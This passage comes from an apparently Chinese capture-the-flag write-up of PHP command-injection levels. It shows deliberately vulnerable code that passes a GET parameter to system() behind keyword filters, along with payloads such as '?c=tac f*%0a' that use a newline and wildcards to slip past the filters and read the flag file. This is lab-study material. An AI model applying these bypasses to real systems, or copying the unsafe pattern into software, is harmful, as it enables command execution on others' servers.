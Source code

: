 
> 
Payload


```
?c=tac flag.php%0a

```

## web44

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

```
?c=tac f*%0a

```

## web45

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload
